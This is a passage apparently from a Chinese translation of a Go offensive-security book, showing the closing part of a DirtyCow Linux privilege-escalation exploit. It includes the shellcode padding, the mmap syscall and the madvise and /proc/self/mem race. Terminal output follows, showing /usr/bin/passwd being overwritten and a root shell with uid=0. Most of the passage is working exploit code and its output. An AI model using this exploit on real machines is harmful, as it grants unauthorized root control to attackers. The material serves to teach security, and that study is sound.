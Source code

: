 ```go
    if err != nil {
        log.Fatal(err) 
    }

    fmt.Printf("Size of binary: %d\n", st.Size())

    payload := make([]byte, st.Size()) 
    for i, _ := range payload {
        payload[i] = 0x90 
    }
    for i, v := range sc { 
        payload[i] = v
    }

    mapp, _, _ = syscall.Syscall6( 
        syscall.SYS_MMAP,
        uintptr(0), 
        uintptr(st.Size()), 
        uintptr(syscall.PROT_READ), 
        uintptr(syscall.MAP_PRIVATE), 
        f.Fd(),
        0, 
    )

    fmt.Println("Racing, this may take a while..\n") 
    go madvise()
    go procselfmem(payload)
    waitForWrite()
}
```

清单 9-14: 完整的 Go 代码 \(/ch-9/dirtycow/main.go/\)

要确认代码是否能正常运行，请在易受攻击的主机上运行。没有比看到root shell更令人满意的了。

```sh
alice@ubuntu:~$ go run main.go
DirtyCow root privilege escalation Backing up /usr/bin/passwd.. to /tmp/bak Size of binary: 47032
Racing, this may take a while..

/usr/bin/passwd is overwritten 
Popping root shell
procselfmem done
Don't forget to restore /tmp/bak

root@ubuntu:/home/alice# id
uid=0(root) gid=1000(alice) groups=0(root),4(adm),1000(alice)
```

如看见的那也，程序成功运行将备份/usr/bin /passwd文件，争夺句柄的控制权，用新的预期值覆盖文件位置，并最终生成一个系统shell。Linux id命令的输出确认alice帐户已经被提升到uid=0的值，表示root级别的特权。

### 用Go创建 Shellcode
